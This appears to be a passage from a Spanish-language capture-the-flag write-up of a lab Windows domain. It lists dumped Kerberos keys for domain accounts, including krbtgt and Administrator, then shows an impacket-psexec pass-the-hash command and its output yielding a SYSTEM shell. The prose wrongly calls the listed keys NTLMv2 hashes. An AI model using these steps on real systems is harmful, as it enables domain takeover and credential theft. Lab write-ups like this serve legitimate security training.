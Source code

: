 ```plaintext
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:c27dec3ba02510da73d21911106fdd3bec31785ce20b89695b57a75c8e7328f3
PATHFINDER$:aes128-cts-hmac-sha1-96:11b0ad3c20fb7750a3212bb2f1023c4f
PATHFINDER$:des-cbc-md5:e364941fc7ef5dd3
[*] Cleaning up... 
```

Como vemos, habremos listado los hashes NTLMv2 de todos los usuarios del directorio activo, esto nos permitirá hacer PTH (Pass The Hash) y podremos acceder a todos ellos sin necesidad de proporcionar contraseña.

<br>

### Pass The Hash
Para autenticarnos como el usuario Administrator mediante el método PTH (Pass The Hash) usaremos la herramienta PSExec de [Impacket](https://github.com/SecureAuthCorp/impacket):

```bash
impacket-psexec megacorp.local/Administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```

```plaintext
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file JMFXofgn.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service GadZ on 10.10.10.30.....
[*] Starting service GadZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Obtendremos una shell como el usuario Administrator por lo que podremos dirigirnos al directorio C:\Users\Administrator\Desktop y visualizar la flag root.txt.